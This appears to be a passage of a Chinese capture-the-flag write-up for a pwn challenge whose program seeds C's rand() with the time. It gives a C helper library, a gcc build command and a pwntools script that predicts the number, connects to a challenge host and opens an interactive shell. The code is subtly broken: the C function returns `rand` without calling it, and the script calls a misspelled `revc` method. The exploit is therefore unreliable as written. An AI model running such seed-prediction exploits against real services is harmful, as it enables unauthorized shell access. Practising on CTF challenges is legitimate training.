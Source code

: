 可以看到使用了C语言的随机函数，由种子生成一个随机数

所以我们需要利用ctypes库在python代码中调用c语言函数，可以与程序生成同样的伪随机数

创建一个名为 random1.c 的C语言源代码文件

```c
#include <stdlib.h>
#include <time.h>

void set_seed()
{
    time_t seed=time(NULL);
    srand(seed);
}

int random_number()
{
    return rand;
}

```

编译这个C语言源文件为一个动态链接库（.so文件）

```shell
gcc -shared -o random1.so random1.c
```

exp

```python
from pwn import *
import ctypes

lib=ctypes.CDLL('./random1.so')
tob = lambda text: str(text).encode('utf-8')
while 1:
    try:
        sh=remote('node5.buuoj.cn',29162)

        lib.random_number.restype=ctypes.c_int

        lib.set_seed()

        result=lib.random_number()

        log.success("result=="+hex(result))

        sh.recvuntil(b'?\n')
        sh.sendline(str(result))

        sh.sendline(b'ls')
        answer=sh.revc(timeout=3)

        if b'sh' in answer:
            sh.close()
        elif b'Haha you are wrong' in answer:
            sh.close()
        else:
            sh.interactive()
    except:
        sh.close()
```
